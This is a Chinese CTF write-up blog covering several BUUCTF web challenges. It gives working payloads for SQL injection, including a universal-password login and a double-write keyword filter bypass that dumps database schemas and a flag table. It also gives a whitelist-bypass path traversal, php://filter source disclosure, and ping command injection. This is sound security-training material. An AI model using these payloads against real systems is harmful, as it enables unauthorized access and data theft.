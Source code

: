 ```yaml
---
title: BUUCTF-web刷题
---
```

# BUUCTF-web刷题

> BUUCTF平台的web题，持续刷。

## [极客大挑战 2019]EasySQL

- 题目：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659965485785-6b64d659-c5b2-4c84-a2d6-8adca00fb79f.png)

- 有登录框，第一联想到利用sql注入，直接尝试万能密码 `' or '1'='1`登录

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659965617560-a5ba0dd4-aa1f-42b2-858c-0228a48d5ff0.png)

## [HCTF 2018]WarmUp

- 一进去就只有一个滑稽脸，直接查看源码，得到source.php，进去得到源码

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659966780771-950e19e1-5821-4413-a295-95f5b8e4e69c.png)

- 源码：

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

> 1、代码审计，发现还有一个hint.php，进去后得到 `flag not here, and flag in ffffllllaaaagggg`，那也就是flag在ffffllllaaaagggg里，但是没有具体说明是在那个目录下，因此构造时候需要依次通过…/…/构造尝试，去查看到底是几层的根目录
>
> 2、代码审计，发现是白名单验证，文件包含只能包含source.php和hint.php
>
> 3、根据后面的if条件得知，file不能为空，必须为字符串，还要通过checkfile()函数的检查，才能包含。
>
> 4、其中检查共有三次，第三次要经过url解码
>
> 5、payload：`file=source.php%253f/../../../../../../ffffllllaaaagggg`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659967349372-dd08f2da-cd70-4bf1-837d-72ae29d9a6b4.png)

## [极客大挑战 2019]Havefun

- 查看源码

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659967412083-2a52fb54-ea7b-4b91-afcf-d13ac14f417b.png)

- 根据源码很容易得到payload：`?cat=dog`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659967477695-b75a0926-7bd4-4aec-9fd6-dc9ceec4afa0.png)

## [ACTF2020 新生赛]Include

- 一上来直接给了一个tips超链接，然后进去得到

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659967617876-e53455d1-be03-490a-9535-2b080959168d.png)

> 观察url发现有flag.php，结合题目判断这题是php伪协议
>
> payload：`?file=php://filter/read=convert.base64-encode/resource=flag.php`
>
> 把得到的base64字符串进行解码

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659967946632-5f593b96-3985-40fc-b130-d6970949269d.png)

## [ACTF2020 新生赛]Exec

- 发现是一个ping的命令执行，测试一下其他命令是否也能执行，是成功的

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659968049937-11d102a4-aad2-4521-addc-2565f4365f77.png)

- 那就直接抓取flag

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1659968097734-9507a5b1-d1c7-4c96-9799-28142ac652c8.png)

## [极客大挑战 2019]BabySQL

- 题目：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660980135444-9e2c836c-0b7b-416a-bec3-448669307193.png)

- 尝试用admin登录失败

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660980292881-fe4cd226-1a20-4168-b380-81049dd174a2.png)

- 进行sql注入
- payload：`?username=1' order by 3&password=admin`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660980630189-828aecb0-e231-480b-9afe-ae74878e637a.png)

- 可以看到order的or和by均被过滤掉了
- 尝试联合注入

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660980811662-e338fa89-2fa7-4dcf-aba6-7a04c76af288.png)

> 同样union和select也都被过滤掉了
>
> 利用双写绕过，发现有3个字段

- payload：`?username=' oorrder bbyy 4--+&password=admin`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660981906860-fa3011f9-ef66-4488-9a17-60d972a3fd6f.png)

- 回显位为第二个和第三个字段
- payload：`?username=' ununionion seselectlect 1,2,3--+&password=admin`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660982012073-e323a752-31ff-482b-8c78-bb5d7f3cd5d9.png)

- 查所有库
- payload：`?username=' ununionion seselectlect 1,2,(seselectlect group_concat(schema_name) frfromom infoorrmation_schema.schemata)--+&password=admin`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660983995572-138d1d45-29d6-4c8e-8214-3849ec5c205d.png)

- 查ctf库中的所有表
- payload：`?username=' ununionion seselectlect 1,2,(seselectlect group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema='ctf') --+&password=admin`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660984181446-440ed3b8-df44-4bd8-bdf6-23ce262e07ee.png)

- 查Flag表中的所有字段
- payload：`?username=' ununionion seselectlect 1,2,(seselectlect group_concat(column_name) frfromom infoorrmation_schema.columns whewherere table_name='Flag') --+&password=admin`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660984384749-570e6518-f223-45f2-9cc9-5ee6d769ad2c.png)

- 查看flag字段内的内容
- paylaod：`?username=' ununionion seselectlect 1,2,group_concat(flag) frfromom ctf.Flag--+&password=admin`

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660983468939-228328bb-4756-402f-884b-4a9cfd20a403.png)

